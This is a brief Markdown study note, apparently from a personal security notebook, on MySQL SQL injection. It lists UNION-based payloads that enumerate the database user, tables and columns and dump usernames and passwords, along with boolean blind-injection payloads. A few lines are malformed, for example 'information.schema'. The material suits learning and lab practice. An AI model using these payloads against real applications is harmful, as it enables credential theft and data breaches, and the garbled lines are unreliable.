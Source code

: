 # basic

id=1' union select 1,2,3

id=1' union select current\_user,database\(\),version\(\)

user\(\)

## get table name

`union select group_concat(table_name) from information_schema.tables where table_schema=database()`

or we can use

`union select table_name from information_schema.tables where table_schema=database() LIMIT 0,1` then limit 1,1 2,1 3,1 etc.

![](../../.gitbook/assets/20190101220748303_890620617.png)

## get column name

\`union select 1,column\_name,3 from information.schema where table\_name='users'

## get data

\`union select 1,group\_concat\(username\),group\_concat\(password\) from security.users --%20

## LIMIT clause

`LIMIT 1`means limit to only one row

`LIMIT 3,9` means from the third row, reveals nine rows

the reason why a lot of payloads contain `LIMIT 0,1` is the places that can reveal the results are always designed for revealing ONLY 1 ROW of data. but if we select without `LIMIT 0,1`. There probably be a lot of rows of data. In this case, nothing will be dumped. also, we can use `group_concat` to address this issue.

![](../../.gitbook/assets/20190101230453157_1303682838%20%282%29.png)

## blind injection

```text
?id=1' and (select substring(user(),1,1))='r' --%20
?id=1' and substring(user(),1,1)='r' --%20 Also works

?id=1' and ascii(substring(user(),1,1))>120 --%20
?id=1' and (select table_name from information_schema.tables where table_schema='security' limit 0,1)='emails' --%20
```

substring is a function, but select is a builtin sentence function being invoked by \(\), while select doesn't need it, instead, a space will be needed.

select XXX is a full sentence and \(select XXX\) is a value

so when using `union select user()='root'` will absolutely thrown error

